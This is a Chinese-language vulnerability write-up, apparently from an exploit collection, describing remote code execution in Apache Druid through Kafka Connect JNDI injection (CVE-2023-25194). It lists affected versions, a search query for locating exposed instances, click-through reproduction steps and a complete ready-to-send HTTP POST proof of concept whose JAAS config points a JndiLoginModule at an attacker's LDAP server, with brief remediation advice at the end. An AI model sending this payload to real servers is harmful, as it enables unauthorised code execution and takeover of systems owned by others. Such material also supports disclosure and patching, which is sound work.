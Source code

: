 # Apache Druid 远程代码执行漏洞 QVD-2023-9629

## 漏洞描述

该漏洞源于 Apache Kafka Connect JNDI 注入漏洞（CVE-2023-25194），Apache Druid 由于支持从 Kafka 加载数据，刚好满足其利用条件，攻击者可通过修改Kafka 连接配置属性进行 JNDI 注入攻击，进而在服务端执行任意恶意代码。

## 漏洞影响

```
Apache Druid <= 25.0.0
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

访问漏洞环境，点击 Load data -> Streaming，进入页面后点击 Apache Kafka -> Connect data：

![image-20230801093324881](images/image-20230801093324881.png)

在 Bootstrap servers 和 Topic 处填入任意字符，点击 Apply，抓包。

poc：

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 1437
Connection: close

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"1.1.1.1:9092",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://your-ip\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"any",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

修改请求包，user.provider.url 处填写你的 ldap 服务 url。

利用 DNSLog 验证漏洞是否存在。

## 修复建议

- 避免 Apache Druid 开放至公网。
- 开启身份认证机制,可参考官方文档：https://druid.apache.org/docs/latest/development/extensions-core/druid-basic-security.html

